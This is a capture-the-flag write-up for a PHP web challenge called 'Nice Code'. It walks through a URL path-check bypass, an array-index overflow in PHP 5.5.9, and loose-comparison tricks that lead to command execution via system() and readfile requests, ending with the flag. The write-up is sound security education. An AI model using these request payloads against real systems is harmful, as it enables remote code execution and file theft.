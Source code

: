 # Nice Code

> Beautify php code! Here

> https://ctftime.org/writeup/9910

When we visit the website and follow the `Get started` link we can see the following message
```
substr($URL, -10) !== '/index.php'
```
When we change URI to `/admin/index.php` we get next message
```
$URL == '/admin/index.php'
```
I tried to bypass it with query string `/admin/index.php?q=index.php` , using double slash `//admin/index.php` and with `/admin/./index.php`, but it didn't work. Finally, i came up with the correct solution `/admin/index.php/index.php`. After visiting this URI I got link to second stage of this challenge [http://167.99.36.112:8080/another/index.php?source](http://167.99.36.112:8080/another/index.php?source). 

Server sends header `X-Powered-By: PHP/5.5.9-1ubuntu4.14` and I knew that array comparison in this PHP version is broken. Index is casted to 32bit integer, so `4294967296` will become `0`, but the problem occurs only in comparison, so b[0] will not equal "admin". Therefore the POST body can look like this
```
b[4294967296]=admin&b[1]=oloco
```
To get code execution we need to guess function name stored in `$k_Jk` and send it via GET. I thought about `call_user_func`, but it didn't work, so I used another PHP 'feature' that 0 equals non-numeric string when `==` is used. We also need to meet other requirements. Our code must be 3rd GET param and `x` param must be longer than 17 chars.
```
?x=17charslongstrings&useless=true&0=var_dump
```
This successfully dumps 0. We can see also that any parameter must be "equal" to function name, so we can send `0=something` instead of `useless=true`.

Unfortunately, there is one more problem. We can't use dots and spaces. Spaces can be replaced by horizontal tab - %09, but I have no idea how to deal with dots. For this reason I used `grep` to dump PHP sources. Unfortunately there wasn't anything interesting there, so the flag could be anywhere. I decided to run `grep -r "ASIS{" /`, but it's an ugly solution.
```
?x=17charslongstrings&0=var&grep%09-r%09&quot;ASIS{&quot;%09/=system
```
The nicer solution would be to `ls` the `/var` directory and notice `flag` file. Then we could just use `readfile`
```
?x=17charslongstrings&0=var&/var/flag=readfile
```

Anyway, it reveals the flag `ASIS{f52c5a0cf980887bdac6ccaebac0e8428bfb8b83}` as well as the filename `/var/flag`.